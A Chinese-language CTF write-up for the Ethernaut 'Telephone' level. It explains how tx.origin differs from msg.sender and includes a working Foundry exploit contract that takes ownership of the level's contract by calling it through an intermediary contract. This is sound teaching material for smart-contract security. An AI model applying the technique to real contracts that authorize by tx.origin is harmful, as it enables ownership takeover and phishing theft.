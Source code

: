 # Ethernaut CTF Writeup

## Level 4 Telephone

> 題目: https://ethernaut.openzeppelin.com/level/0x865e167C3db2c3E1C046cC67b05E6EcF9C897C2D

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

過關條件: 

- TODO

解法：

 - `tx.origin` 及 `msg.sender` 的差異
    - `tx.origin`: 發起交易的地址，通常為使用者的錢包地址
    - `msg.sender`: function 的呼叫者，可以為使用者錢包，或是另一個合約
- 作法：寫一個合約代替直接發送，便可造成 `tx.origin` 及 `msg.sender` 出現不一致

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Telephone} from "../src/level4/Telephone.sol";


contract AttackTelephone {
    Telephone public telephone;
    
    constructor(address _targetAddress) {
        telephone = Telephone(payable(_targetAddress));
        
        console.log(telephone.owner());
        telephone.changeOwner(msg.sender);
        
        console.log(telephone.owner());
    }
}

contract Attack is Script {
    
    function run() public {
        vm.startBroadcast();

        AttackTelephone attack = new AttackTelephone(0x5f0BBf33020Cd1fD15d332e8B799ec5B470d2414);
        
        vm.stopBroadcast();
    }
}

```

Takeaways:

- 如果沒有搞清楚 tx.origin 和 msg.sender 的差異，可能會導致釣魚攻擊
- https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/